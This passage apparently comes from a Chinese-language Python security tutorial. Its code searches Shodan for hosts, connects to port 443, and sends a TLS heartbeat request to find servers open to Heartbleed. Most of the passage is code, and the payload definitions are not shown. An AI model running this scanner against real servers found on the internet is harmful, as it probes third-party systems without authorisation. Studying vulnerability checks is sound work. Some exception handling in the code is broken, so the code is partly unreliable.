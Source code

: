 ```py
            checkVulnerability(result['ip_str'],'443')
        except Exception as e:
            print('Error connecting: %s' % e)
            continue
        except socket.timeout:
            print('Error connecting Timeout error: %s' % e)
            continue

    print('-----------------------------------------------')
    print('Final Results')
    print('-----------------------------------------------')
    if len(server_vulnerable) == 0:
        print('No Server vulnerable found')
    if len(server_vulnerable) > 0:
        print('Server vulnerable found ' + str(len(server_vulnerable)))

    for server in server_vulnerable:
        print('Server vulnerable: '+ server)
        print(self.obtain_host_info(server))
```

一旦我们定义了在 shodan 中搜索的方法并检查`port 443`已打开，我们就可以使用`socket`模块特定的心脏出血漏洞进行检查：

```py
def checkVulnerability(ip,port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        print('Connecting with ...' + ip + ' Port: '+ port)
        sys.stdout.flush()
        s.connect((ip, int(port)))
        print('Sending Client Request...')
        sys.stdout.flush()
        s.send(hello)
        print('Waiting for Server Request...')
        sys.stdout.flush()
        while True:
            typ, ver, pay = recvmsg(s)
            if typ == None:
                print('Server closed connection without sending Server Request.')
                break
            # Look for server hello done message.
            if typ == 22 and ord(pay[0]) == 0x0E:
                break
            print('Sending heartbeat request...')
            sys.stdout.flush()
            s.send(hb)
            if hit_hb(s):
                server_vulnerable.append(ip)
    except socket.timeout:
        print("TimeOut error")
```
